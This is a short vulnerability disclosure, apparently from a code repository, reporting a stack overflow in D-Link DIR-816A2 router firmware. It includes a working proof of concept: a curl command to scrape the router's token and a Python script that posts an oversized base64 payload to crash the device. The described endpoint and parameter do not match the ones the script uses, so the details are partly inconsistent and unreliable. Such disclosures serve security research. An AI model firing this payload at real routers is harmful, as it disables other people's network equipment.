 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/form2WlanBasicSetup.cgi.  With the setSecurity function,the contents obtained by the wizardstep4_pskpwd parameter are passed to V9, and then the contents matched by V9 are decoded and put into the V17 stack without size checking, resulting in a stack overflow.

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests
import base64

tokenid = ''

url = 'http://192.168.0.1/goform/form2RepeaterStep2.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid': tokenid,
    'method': '6',
    'authType': 'a',
    'pskValue': payload

}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

You can see the router crash
